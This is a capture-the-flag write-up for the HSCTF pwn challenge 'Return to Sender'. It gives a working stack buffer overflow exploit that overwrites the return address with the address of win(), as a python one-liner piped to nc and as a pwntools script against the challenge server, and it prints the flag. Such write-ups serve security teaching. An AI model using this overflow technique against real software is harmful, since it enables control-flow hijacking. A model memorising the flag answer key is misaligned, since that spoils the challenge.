



# Return to Sender

Written by: Ptomerty

Who knew the USPS could lose a letter so many times?

nc pwn.hsctf.com 1234

Note: If you're trying to use python or a similar program to run your exploit, make sure to keep stdin alive with cat, like this: (python; cat -) | nc pwn.hsctf.com \<port\>

File: return-to-sender.c, return-to-sender

## Solution



So we probably need to overflow ```dest``` buffer and overwrite the return address with the address of ```win()```. To get the address of ```win()```, we use ```objdump```.

```
$ objdump -d return-to-sender
```


Let's try to overwrite the return address first.

```
python -c "print 'A'*24" | ./return-to-sender
```


Lets change the last 4 "A"s to the address of ```win()```. Take note that it needs to be in little endian.

```
python -c "print 'A'*20 + '\xb6\x91\x04\x08' + '\n'" | nc pwn.hsctf.com 1234
```



No prompt ? Weird. Lets try using ```pwntools```.

```python
from pwn import *

conn = remote("pwn.hsctf.com", 1234)
conn.recvuntil("today?")
conn.send('A'*20 + '\xb6\x91\x04\x08' + '\n')
conn.recvuntil("goes!")
conn.interactive()
```




Flag: ```hsctf{fedex_dont_fail_me_now}```
